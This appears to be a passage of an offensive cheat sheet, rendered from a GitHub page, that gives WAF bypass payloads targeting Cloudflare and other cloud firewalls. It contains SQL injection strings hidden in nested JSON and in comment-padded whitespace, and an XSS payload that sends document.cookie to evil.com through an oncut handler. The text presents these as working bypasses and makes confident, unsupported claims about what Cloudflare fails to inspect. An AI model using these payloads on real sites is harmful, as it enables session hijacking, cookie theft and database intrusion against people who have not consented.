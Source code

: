 ```json
{
  "user": {
    "info": {
      "name": "' OR 1=1 --"
    }
  }
}
```  

- Some WAFs **fail to parse deeply nested JSON fields**.  

----  

### **🔥 Targeted WAF Bypass Payloads for Cloudflare, AWS WAF, and Other Cloud Providers 🔥**  

>**Advanced WAF bypass techniques** that specifically target **Cloudflare, AWS WAF, and other major cloud WAF solutions**.   
>Below are **bypass methods** for **XSS, SQLi, SSRF, and command injection** against these cloud providers.  

## **1️⃣ Cloudflare WAF Bypass**  

>Cloudflare WAF uses **rule-based filtering, machine learning models, and challenge-response verifications**.  
>**Cloudflare struggles with encoding tricks and header manipulation**.  

### **🔥 Cloudflare XSS Bypass**  

>Cloudflare WAF blocks basic XSS like:  

```html
<script>alert(1)</script>
```  

>**Bypass using `oncut` Event & Character Encoding:**  

```html
<img src="x" oncut="fetch('http://evil.com/cookie?='+document.cookie)">
```  

- Cloudflare does **not inspect `oncut` events**.  
- Uses **DOM-based execution instead of inline `script`**.  

### **🔥 Cloudflare SQL Injection Bypass**  

>Cloudflare detects classic payloads like:  

```sql
' OR '1'='1' --
```  

>**Bypass using JSON Syntax & Whitespace Tricks:**  

```sql
'/**/OR/**/'1'/**/=/**/'1'
```  
